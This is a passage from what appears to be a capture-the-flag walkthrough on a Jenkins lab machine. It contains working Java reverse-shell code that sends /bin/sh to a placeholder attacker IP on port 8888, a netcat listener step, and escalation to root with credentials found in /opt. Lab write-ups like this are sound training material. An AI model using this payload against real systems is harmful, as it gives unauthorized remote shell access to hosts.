```
String host="<ip_address>";
int port=8888;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Make sure to run `netcat` on your chosen port so that it can catch the callback:

![netcat callback](screenshots/23_netcat_callback.png)

We are now logged in as the `jenkins` user, but we need to be `root`.  So, we need to do more enumeration.  We found credentials in the `/opt` directory last time, so let's start there.  It turns out that there is a `note.txt` file within this folder containing credentials for the `root` user:

![root creds](screenshots/24_root_creds.png)

Now, we can use `su` to switch user over to `root` and retrieve the `root.txt` flag:

![root flag](screenshots/25_root_flag.png)
